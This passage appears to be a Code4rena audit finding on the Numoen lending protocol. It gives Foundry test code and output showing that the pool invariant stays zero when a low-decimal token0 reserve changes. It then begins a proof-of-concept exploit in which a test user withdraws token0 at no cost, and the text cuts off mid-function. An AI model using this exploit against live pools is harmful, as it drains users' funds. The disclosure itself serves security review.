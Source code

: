       function testAudit1() external
      {
        uint256 x = 1*10**6;
        uint256 y = 2 * (5 * 10**24 - 10**21);
        uint256 liquidity = 10**24;
        uint256 token0Scale=10**12;
        uint256 token1Scale=1;
        emit log_named_decimal_uint("invariant", invariant(x, y, liquidity, token0Scale, token1Scale), 36);

        x = 1.5*10**6;
        emit log_named_decimal_uint("invariant", invariant(x, y, liquidity, token0Scale, token1Scale), 36);
      }

Put these two functions in the `LiquidityManagerTest.t.sol` and run the case.<br>
The result is as below and it shows that while the reserve0 amount changes to 150%, the actual value `a+b-c-d` does not change.

    F:\SOL\Code\Code4rena\2023-01-numoen>forge test -vv --match-test testAudit1
    [⠒] Compiling...
    No files changed, compilation skipped

    Running 1 test for test/LiquidityManagerTest.t.sol:LiquidityManagerTest
    [PASS] testAudit1() (gas: 10361)
    Logs:
      invariant: 0.000000000000000000000000000000000000
      invariant: 0.000000000000000000000000000000000000

    Test result: ok. 1 passed; 0 failed; finished in 5.74ms

So what does this mean? We know that if `a+b-c-d` is positive, it means anyone can call `swap()` to withdraw the excess value.<br>
The above test shows that the significant change in the token0 reserve amount did not change the value `a+b-c-d`.<br>
Based on this, I wrote an attack case where dennis pulls 0.5&ast;10&ast;&ast;6 token0 without cost while the invariant stays at zero.<br>
Although the benefit is only 0.5 USDC for this test case, this shows a possibility drawing value without affecting the invariant for pools with low decimals.

```solidity
  function testAttack() external
  {
    // token0 is USDC
    token0Scale = 6;
    token1Scale = 18;

    // cuh adds liquidity
    lendgine = Lendgine(factory.createLendgine(address(token0), address(token1), token0Scale, token1Scale, upperBound));

    uint256 amount0 = 1.5*10**6;
    uint256 amount1 = 2 * (5 * 10**24 - 10**21);
    uint256 liquidity = 10**24;

    token0.mint(cuh, amount0);
    token1.mint(cuh, amount1);

    vm.startPrank(cuh);
    token0.approve(address(liquidityManager), amount0);
    token1.approve(address(liquidityManager), amount1);

    liquidityManager.addLiquidity(
      LiquidityManager.AddLiquidityParams({
        token0: address(token0),
        token1: address(token1),
        token0Exp: token0Scale,
        token1Exp: token1Scale,
        upperBound: upperBound,
```